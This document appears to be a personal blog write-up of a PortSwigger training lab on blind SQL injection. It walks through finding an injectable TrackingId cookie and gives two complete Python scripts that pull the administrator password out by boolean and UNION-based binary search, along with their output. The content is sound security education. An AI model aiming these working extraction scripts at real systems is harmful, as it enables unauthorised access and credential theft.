

## Introduction

This is it, the lab I've been waiting for—no more boring UNION attacks, now true exploitation, INSHALLAH. This is the 11th SQLi lab, titled [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).

The goal is basically to extract the password of the administrator using blind SQLi.

This will be a nice challenge since what we inject won't be reflected back to us as users, but certain behaviors will appear.

The behavior we are tracking is the `welcome back` message: **The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message on the page if the query returns any rows.**


## Recon

We are faced with the usual e-commerce-like website, shown in the following image.




So if we click on a specific category, we get redirected to the URL `/filter?category=<Category-Name>`.

So let's try to inject the usual payload: `' OR '1' = '1' -- `. But it didn't actually do anything—the user input is not affecting the SQL this time, which means the category input is apparently not vulnerable to SQLi, even when we try to add something that would generate an internal server error, like `'`. It doesn't do anything—no waiting or any undefined behavior appears—so let's try checking other "input" fields, and we're going to use Burp Suite to check.

## Vuln Detection and Analysis

When we use Burp Suite and intercept the traffic while looking for a specific category, we find an interesting field in the headers, specifically in the cookies field, which is the `TrackingId`, shown in the following image.


The TrackingId is created by devs to track users and identify them without an authentication wall, basically assigning the browser an ID for better UX purposes or for analysis purposes.

Usually, data stored with this tracking ID is stored within a table in the database and assigned as a primary key to a table that contains various information, sometimes as follows.

```sql
CREATE TABLE tracking (
    tracking_id VARCHAR(64) PRIMARY KEY,
    user_id INT,
    session_id VARCHAR(64),
    ip_address VARCHAR(45),
    user_agent TEXT,
    page_visited TEXT,
    referrer TEXT,
    country VARCHAR(50),
    language VARCHAR(20),
    created_at TIMESTAMP,
    last_seen TIMESTAMP,
    visit_count INT,
    is_logged_in BOOLEAN
);

-- NOTE : THIS IS JUST AN EXAMPLE NOT A BLUEPRINT
```

So if the TrackingId field is vulnerable, then this could be our jackpot. So we will try to insert some valid SQL and some invalid SQL to see if there is a difference (sometimes this comparison can tell if there is actually SQLi or not).

So if we inject `' OR '1' = '1' -- `, we get exactly the normal page, but if we inject something messed up like `' dasda -- `, at first glance we get the same page. But if we compare them, either by a script or by using a hint from the challenge, we find that the "Welcome back" message is not present.

So we injected a valid payload and got the same page, and when we injected a messy one, we got something missing from the page. This indicates, with a good degree of confidence, that we have an SQLi vulnerability—the blind kind, based on a condition, which is the presence of the "Welcome back" message.

## Exploitation and Payload

For the exploitation and payload, we will try a UNION attack first to see what happens; if it works, we continue xD. But usually blind SQLi labs are solved using pure boolean-based approaches by just adding a condition; I want to try the UNION method.

### UNION ATTACK WITH BLIND SQLi

So we need to extract the password. First, we need to use a UNION attack for this, but not our usual one, because this time we are just relying on the condition of the response containing the `welcome back` message.

If we inject `' UNION SELECT NULL -- `, we get the message `welcome back`, which means that the first SQL clause extracts one column, since UNION requires all SQL SELECT clauses to have the same number of columns with compatible types each (go back to previous labs—we milked this so much).

Now we need to basically ask the database about the administrator's password in a clever way. First, we are going to ask it if the length is X or not, and we keep adding until we get that message in the response.

And we will ask about each character's index: is the character at index 1 equal to Y? Or is the ASCII code lower or higher?

That's what we will be doing: a brute force for length and a binary search for the password, using these payloads.

```sql

UNION SELECT password FROM users WHERE username='administrator' and LENGTH(password)=x;

UNION SELECT password FROM users WHERE username='administrator' and ASCII(SUBSTRING(password, position, 1)) < 126 
```

The first query is for length, and the second is one part of the binary search.

So you may be asking: are we going to send requests each time using Burp Suite? The answer is absolutely not—we are writing a payload to automate this, and it is the following.

```py

import requests

URL = ""
minn = 32 # the minimum ascii code of the printable characters
maxx = 126 # the maximum ascii code of the printable characters


cookies = lambda injection:{"TrackingId":f"{injection.strip()}", "session":"gZGcKfwe5MA95oyiyO9mWN0wCgPhVKF6"} # Decalring the cookie field and the place holder for injection

queryEquals = lambda i,x: f"""
' UNION SELECT password FROM users WHERE username='administrator' AND ASCII(SUBSTRING(password,{i},1)) = {x} -- 
""" ## Test if the password character of index i equals to the character x

queryInf = lambda i,x: f"""
' UNION SELECT password FROM users WHERE username='administrator' AND ASCII(SUBSTRING(password,{i},1)) < {x} -- 
""" ## Test if the password character of index i inferior to the character x in ascii terms

querySup = lambda i,x: f"""
' UNION SELECT password FROM users WHERE username='administrator' AND ASCII(SUBSTRING(password,{i},1)) > {x} -- 
""" ## Test if the password character of index i higher to the character x in ascii terms


queryLength = lambda l: f"""
' UNION SELECT password FROM users WHERE username='administrator' AND LENGTH(password) = {l} -- 
""" ## Test if the password length equals to l

passLength = 1

## This loop is for searching the password's length

while True:
	print(f"Trying length {passLength}")
	r = requests.get(URL, cookies = cookies(queryLength(passLength)))


	if "welcome back" in str(r.text).lower(): ## IF welcome back exists then this is a valid sql query which means we reached the password legnth
		break
	else:
		passLength += 1


print(f"Found password LENGTH {passLength}")

counter = 1
password = ""

# Binary search algorithm for seaching the full password by implimenting the algorithm on each character

while counter <= passLength:

	mid = (minn+maxx)//2


	if "welcome back" in str(requests.get(URL, cookies=cookies(queryEquals(counter,mid))).text).lower():
		password += chr(mid)
		print(f"[*] Finding password letter number {counter} : {password}")
		counter += 1
		minn = 32
		maxx = 126

	elif "welcome back" in str(requests.get(URL, cookies=cookies(queryInf(counter,mid))).text).lower():
		maxx = mid - 1
		
	elif "welcome back" in str(requests.get(URL, cookies=cookies(querySup(counter,mid))).text).lower():
		minn = mid + 1
		


print(f"[+] Final password is {password}")
```

After we run the code, we get the following results.

```sh
$ python3 exploit.py 
Trying length 1
Trying length 2
Trying length 3
Trying length 4
Trying length 5
Trying length 6
Trying length 7
Trying length 8
Trying length 9
Trying length 10
Trying length 11
Trying length 12
Trying length 13
Trying length 14
Trying length 15
Trying length 16
Trying length 17
Trying length 18
Trying length 19
Trying length 20
Found password LENGTH 20
[*] Finding password letter number 1 : a
[*] Finding password letter number 2 : af
[*] Finding password letter number 3 : afp
[*] Finding password letter number 4 : afph
[*] Finding password letter number 5 : afph6
[*] Finding password letter number 6 : afph6a
[*] Finding password letter number 7 : afph6am
[*] Finding password letter number 8 : afph6amj
[*] Finding password letter number 9 : afph6amjv
[*] Finding password letter number 10 : afph6amjvi
[*] Finding password letter number 11 : afph6amjvir
[*] Finding password letter number 12 : afph6amjvirl
[*] Finding password letter number 13 : afph6amjvirln
[*] Finding password letter number 14 : afph6amjvirln4
[*] Finding password letter number 15 : afph6amjvirln4c
[*] Finding password letter number 16 : afph6amjvirln4cv
[*] Finding password letter number 17 : afph6amjvirln4cvw
[*] Finding password letter number 18 : afph6amjvirln4cvwq
[*] Finding password letter number 19 : afph6amjvirln4cvwq4
[*] Finding password letter number 20 : afph6amjvirln4cvwq4q
[+] Final password is afph6amjvirln4cvwq4q


```

So the credentials are `administrator:afph6amjvirln4cvwq4q`, and we can use these credentials to log in as admin, and thus the lab is solved.


**NOTE: THE LAB CAN BE SOLVED WITHOUT UNION ATTACK + BLIND SQLI BY JUST MANIPULATING THE BOOL OPERATIONS BY JUST ADDING `AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a`**

### Boolean Operation Attack - Native SQLi

Instead of injecting `UNION` so we would have two select clauses, we will be using the same select clause, since it actually doesn't make a lot of sense to use UNION unless the query result is reflected to you. I just wanted to try something new.

So we are in a query that we assume looks like this.

```sql
INSERT INTO USERS VALUES(...) WHERE TrackingId='<TRACKING-ID>';
```
**DISCLAIMER: THIS IS NOT 100% THE TRUE QUERY, I JUST MADE AN ASSUMPTION, AND WHAT MATTERS IS THAT THERE IS A WHERE**

My assumption was that it is an INSERT, not a SELECT clause, because in SWE we usually insert user actions based on his tracking ID, and when we do an operation, it is sent to the backend, so the backend would add that the user of that ID visited URL X. It can be other things actually, but this is my initial assumption; it does not matter that much—what matters is that we have a `WHERE` clause, so we try to add another condition to that WHERE clause using AND, and we inject the condition we want.

Like what we did, we will basically ask the database about the password's length, then use the usual binary search algorithm; it is exactly the same approach aside from the payload.

```sql
 AND (SELECT LENGTH(password) FROM users WHERE username='administrator')={l} --

 AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')={x} --  
 AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')<{x} --
 AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')>{x} -- 
```

We will now just replace the queries in the previous Python payload with the new ones.

```py

import requests

URL = ""
minn = 32
maxx = 126


cookies = lambda injection:{"TrackingId":f"1E9qnPTPNeUqxWXU{injection.strip()} ", "session":"Js7phm5W6blS3bGAkGCwznSvIMwuTgln"}

queryEquals = lambda i,x: f"""
' AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')={x} --  
"""

queryInf = lambda i,x: f"""
' AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')<{x} --
"""

querySup = lambda i,x: f"""
' AND (SELECT ASCII(SUBSTRING(password,{i},1)) FROM users WHERE username='administrator')>{x} -- 
"""

queryLength = lambda l: f"""
	' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')={l} --
"""

passLength = 1

while True:
	print(f"Trying length {passLength}")
	r = requests.get(URL, cookies = cookies(queryLength(passLength)))
	if "welcome back" in str(r.text).lower():
		break
	else:
		passLength += 1


print(f"Found password LENGTH {passLength}")

counter = 1
password = ""

while counter <= passLength:

	mid = (minn+maxx)//2

	if "welcome back" in str(requests.get(URL, cookies=cookies(queryEquals(counter,mid))).text).lower():
		password += chr(mid)
		print(f"[*] Finding password letter number {counter} : {password}")
		counter += 1
		minn = 32
		maxx = 126

	elif "welcome back" in str(requests.get(URL, cookies=cookies(queryInf(counter,mid))).text).lower():
		maxx = mid - 1
		
	elif "welcome back" in str(requests.get(URL, cookies=cookies(querySup(counter,mid))).text).lower():
		minn = mid + 1
		


print(f"[+] Final password is {password}")
```

It will give us the same result as the previous one; the `UNION` worked for us in some coincidence miracle way xD. But this is how initially blind SQLi works; it is based on conditions.

## Conclusion

That was a great lab. It reminds me of one of the CTFs I played, whose writeup exists on the blog: the MOJOJO CTF. Anyway, this lab is a great intro to blind SQLi and how you can use your programming skills to exploit it like a real hacker-man xD.